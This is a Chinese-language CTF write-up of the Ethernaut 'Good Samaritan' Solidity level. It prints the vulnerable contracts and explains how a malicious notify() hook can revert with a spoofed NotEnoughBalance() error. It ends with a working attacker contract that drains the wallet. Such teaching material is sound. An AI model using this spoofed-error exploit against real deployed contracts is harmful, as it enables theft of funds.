


# Good Samaritan

## 题目

要求：GoodSamaritan的wallet有很多钱，将其设置为0

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "openzeppelin-contracts-08/utils/Address.sol";

contract GoodSamaritan {
    Wallet public wallet;
    Coin public coin;

    constructor() {
        wallet = new Wallet();
        coin = new Coin(address(wallet));

        wallet.setCoin(coin);
    }

    function requestDonation() external returns(bool enoughBalance){
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
}

contract Coin {
    using Address for address;

    mapping(address => uint256) public balances;

    error InsufficientBalance(uint256 current, uint256 required);

    constructor(address wallet_) {
        // one million coins for Good Samaritan initially
        balances[wallet_] = 10**6;
    }

    function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if(amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if(dest_.isContract()) {
                // notify contract 
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
}

contract Wallet {
    // The owner of the wallet instance
    address public owner;

    Coin public coin;

    error OnlyOwner();
    error NotEnoughBalance();

    modifier onlyOwner() {
        if(msg.sender != owner) {
            revert OnlyOwner();
        }
        _;
    }

    constructor() {
        owner = msg.sender;
    }

    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }

    function transferRemainder(address dest_) external onlyOwner {
        // transfer balance left
        coin.transfer(dest_, coin.balances(address(this)));
    }

    function setCoin(Coin coin_) external onlyOwner {
        coin = coin_;
    }
}

interface INotifyable {
    function notify(uint256 amount) external;
}
```

## 分析

题目的大概意思是：有一种代币coin，然后GoodSamaritan拥有一个钱包，这个钱包存有很多coin。GoodSamaritan很慷慨，可以给别人钱，但是每次只能给10元，我们得想办法一次性偷走它的所有钱。

这个向GoodSamaritan要钱的方法是一次申请10元，如果失败，则取走所有钱。本意是不够10元的时候拿走剩余的钱。那么我们可以在`donate10()`直接给他报错进入catch，就可以拿走所有钱了。

```solidity
function requestDonation() external returns(bool enoughBalance){
        // donate 10 coins to requester
        try wallet.donate10(msg.sender) {
            return true;
        } catch (bytes memory err) {
            if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
                // send the coins left
                wallet.transferRemainder(msg.sender);
                return false;
            }
        }
    }
```

如果余额大于10元，那么就会转账10元

```solidity
    function donate10(address dest_) external onlyOwner {
        // check balance left
        if (coin.balances(address(this)) < 10) {
            revert NotEnoughBalance();
        } else {
            // donate 10 coins
            coin.transfer(dest_, 10);
        }
    }
```

进入到coin，在转账的时候，会调用转账目标地址的notify()函数，这是一个钩子函数，挺常见的。但是这里就存在大问题了，典型的未知合约位置方法实现，`notify()`可控。如果我们在notify中直接触发一个error，那么在`requestDonation()`中就会捕获到错误，然后转出剩下所有的钱，注意，报错的内容要是`NotEnoughBalance()`。

```solidity
function transfer(address dest_, uint256 amount_) external {
        uint256 currentBalance = balances[msg.sender];

        // transfer only occurs if balance is enough
        if(amount_ <= currentBalance) {
            balances[msg.sender] -= amount_;
            balances[dest_] += amount_;

            if(dest_.isContract()) {
                // notify contract 
                INotifyable(dest_).notify(amount_);
            }
        } else {
            revert InsufficientBalance(currentBalance, amount_);
        }
    }
```

那么实现可以是下面这样。注意了，当我们调用`transferRemainder()`转走所有coin的时候也会调用钩子函数，因此需要判断条件，不能直接revert。

```solidity
function notify(uint256 amount) external pure {
    if (amount == 10) {
        revert NotEnoughBalance();
    } 
  }
```

## 解题

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity 0.8.17;

interface IGoodSamaritan {
  function requestDonation() external returns (bool);
} 

contract attacker {  

  error NotEnoughBalance();

  function attack(address _addr) external { 
     IGoodSamaritan(_addr).requestDonation();
  }

  function notify(uint256 amount) external pure {
    if (amount == 10) {
        revert NotEnoughBalance();
    } 
  }
}
```

攻击流程



成功


